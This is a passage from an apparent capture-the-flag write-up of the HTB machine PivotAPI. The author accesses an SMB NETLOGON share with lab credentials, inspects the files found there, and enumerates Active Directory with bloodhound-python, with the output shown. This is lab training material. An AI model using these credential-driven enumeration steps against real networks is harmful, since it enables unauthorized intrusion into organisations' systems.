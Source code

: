 ```
$ smbclient -U 'Kaorz' //10.129.228.115/NETLOGON          
Password for [WORKGROUP\Kaorz]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Aug  8 18:42:28 2020
  ..                                  D        0  Sat Aug  8 18:42:28 2020
  HelpDesk                            D        0  Sun Aug  9 23:40:36 2020

                5158399 blocks of size 4096. 1105115 blocks available
smb: \HelpDesk\> ls
  .                                   D        0  Sun Aug  9 23:40:36 2020
  ..                                  D        0  Sun Aug  9 23:40:36 2020
  Restart-OracleService.exe           A  1854976  Fri Feb 19 18:52:01 2021
  Server MSSQL.msg                    A    24576  Sun Aug  9 19:04:14 2020
  WinRM Service.msg                   A    26112  Sun Aug  9 19:42:20 2020

                5158399 blocks of size 4096. 1105110 blocks available
```

Then, we can take a look at these files:

```
$ file Restart-OracleService.exe 
Restart-OracleService.exe: PE32+ executable (console) x86-64, for MS Windows
$ file Server\ MSSQL.msg        
Server MSSQL.msg: CDFV2 Microsoft Outlook Message
$ file WinRM\ Service.msg             
WinRM Service.msg: CDFV2 Microsoft Outlook Message
```

I transferred this to my Windows VM for some reverse engineering.&#x20;

I also used `bloodhound-python` to collect information about the domain for me. The first time I ran it, it generated this error:

```
WARNING: DCE/RPC connection failed: [Errno Connection error (pivotapi.licordebellota.htb:88)] [Errno -2] Name or service not known
INFO: Done in 00M 02
```

So we have to add another subdomain to our `/etc/hosts` file to enumerate properly. Then, we can run the command again:

```
$ bloodhound-python -d LicorDeBellota.htb -u Kaorz -p Roper4155 -c all -ns 10.129.228.115
INFO: Found AD domain: licordebellota.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: pivotapi.licordebellota.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: pivotapi.licordebellota.htb
INFO: Found 28 users
INFO: Found 58 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: PivotAPI.LicorDeBellota.htb
INFO: Done in 00M 02S
```
